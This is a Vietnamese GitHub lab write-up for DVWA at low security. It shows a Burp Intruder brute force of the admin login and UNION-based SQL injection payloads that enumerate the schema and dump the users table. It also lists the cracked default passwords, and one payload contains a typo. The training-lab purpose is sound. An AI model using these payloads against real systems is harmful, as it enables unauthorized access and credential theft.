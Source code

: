 # DVWA - Security Level: Low

## 1. Brute Force  
Su dung BurpSuite bat request khi thuc hien dang nhap:  
![Brute Forces_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_1.png)  
Su dung tinh nang **Intruder**, thu bruteforces voi tai khoan **admin**:  
![Brute Forces_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_2.png)  
Ket qua:  
![Brute Forces_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_3.png)  
Tai khoan: **admin**
Mat khau: **password**  
## 2. Command Injection  

## 3. CSRF  

## 4. File Inclusion  

## 5. File Upload  

## 6. Insecure Captcha  

## 7. SQL Injection  
Nhap thu **"1"** vao input box:  
![SQL Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_1.png)  
Khi nhap **User ID = 1** trang web se tra ve thong tin cua **ID, First name, Surname**, vi vay cau lenh query co the la:  
**SELECT first_name, last_name FROM users WHERE user_id = id;**  
Thu kiem tra so column cua cau lenh query bang canh nhap **'UNION ODER BY 2--**  
![SQL Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_2.png)  
Kiem tra cac table trong database bang lenh query:  
**' UNION SELECT null, table_name FROM INFORMATION_SCHEMA.TABLES-- -**  
![SQL Injection_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_3.png)  
Co table **users**, kiem tra cac column trong table **users** bang lenh query:  
**' UNION SELECT null, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'dvwa' and table_name = 'users'-- -**    
![SQL Injection_4](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_4.png)  
Trong table **user** co 2 column **user, password**, kiem tra 2 columns bang lenh query:  
**' UNION SELECT user, password FROM users-- -**  
![SQL Injection_5](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_5.png)  
Ta co cac thong tin ve **user, password**, **password** dang duoc ma hoa MD5. Sau khi giai ma:  
**admin - password  
gordonb - abc123  
1337 - charley  
pablo - letmein  
smithy - password**  
## 8. SQL Injection (Blind)  

## 9. Weak Session IDs  

## 10. XSS (DOM)  
    
## 11. XSS (Reflected)  
    
## 12. XSS (Stored)  

## 13. CSP Bypass  

## 14. JavaScript  
